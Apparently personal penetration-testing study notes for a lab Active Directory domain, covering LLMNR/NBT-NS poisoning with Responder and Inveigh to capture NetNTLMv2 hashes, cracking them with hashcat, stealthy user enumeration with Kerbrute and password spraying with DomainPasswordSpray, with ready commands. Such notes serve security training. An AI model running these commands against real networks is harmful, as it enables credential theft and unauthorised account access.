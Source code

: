 alternate methods of host identification when DNS fails
1. LLMNR - Link-Local Multicast Name Resolution - port 5355 over UDP
2. NBT-NS - NetBIOS Name Service - port 137 over UDP
it will ask hosts from the network, and ANY host on the network can reply and then we can use responder to poison these requests and spoof an authoritative name resolution source. Then we can try to capture the NetNTLM hash when they are trying to authenticate. 

# Linux 

## responder
if there is something that says "Skipping previously captured hash for InLANEFREIGHT\AB920"
hashes are stored in /usr/share/responder/logs

make sure to run with sudo/root and theses ports are open: 
```shell-session
UDP 137, UDP 138, UDP 53, UDP/TCP 389,TCP 1433, UDP 1434, TCP 80, TCP 135, TCP 139, TCP 445, TCP 21, TCP 3141,TCP 25, TCP 110, TCP 587, TCP 3128, Multicast UDP 5355 and 5353
```

```bash
sudo responder -I ens224 
```

then crack the hashes using [[hashcat]] -m 5600 


# Windows
use Inveigh in PS as administrator
```
Import-Module .\Inveigh.ps1

(Get-Command Invoke-Inveigh).Parameters

Invoke-Inveigh Y -NBNS Y -ConsoleOutput Y -FileOutput Y
```
there is also a C# version compiled into EXE 
```
.\Inveigh.exe
```
press `esc` and `HELP` to get commands to execute
```
GET NTLMV2UNIQUE
```


We can try a password attacks using the domain's password policy and also do domain user enumeration to make a target user  list [[Password Policy & Spraying]]

## Enumerating Users with Kerbrute 
uses Kerberos Pre-Authentication, which is much faster and potentially stealthier way to perform password spraying. Does not generate Windows event ID 4625: An account failed to log on, or a logon failure which is often monitored for when enumerating users. But when using that users list to do password spraying, a failed attempt will generate the logon failure windows event.

```shell-session
kerbrute userenum -d inlanefreight.local --dc 172.16.5.5 /opt/jsmith.txt 
```

then we can do some password spraying with crackmapexec on smb 

# Windows
from windows attack 

if the host is domain joined
[DomainPasswordSpray](https://github.com/dafthack/DomainPasswordSpray)
```
Import-Module .\DomainPasswordSpray.ps1
Invoke-DomainPasswordSpray -Password Welcome1 -OutFile spray_success -ErrorAction SilentlyContinue
```

if not,
we can also use kerbrute for user enumeration 